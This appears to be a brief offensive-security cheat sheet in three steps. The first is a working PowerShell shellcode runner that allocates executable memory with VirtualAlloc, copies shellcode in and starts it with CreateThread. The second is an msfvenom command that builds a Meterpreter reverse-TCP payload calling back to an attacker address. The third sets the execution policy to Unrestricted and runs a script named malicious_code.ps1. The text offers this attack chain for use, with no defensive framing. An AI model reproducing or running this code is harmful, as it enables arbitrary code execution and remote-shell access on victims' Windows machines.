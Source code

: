 <h2> <span style="color:red" >  1. Using Powershell to do Remote Process Memory Injection </span> </h2>

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

<h2> <span style="color:red" >  2. Generate a meterpreter </span> </h2>

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f powershell
```

<h2> <span style="color:red" >  3. Bypass Powershell Execution Policy and execute malicious code </span> </h2>

```powershell
Get-ExecutionPolicy -Scope CurrentUser
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
Get-ExecutionPolicy -Scope CurrentUser
.\malicious_code.ps1
```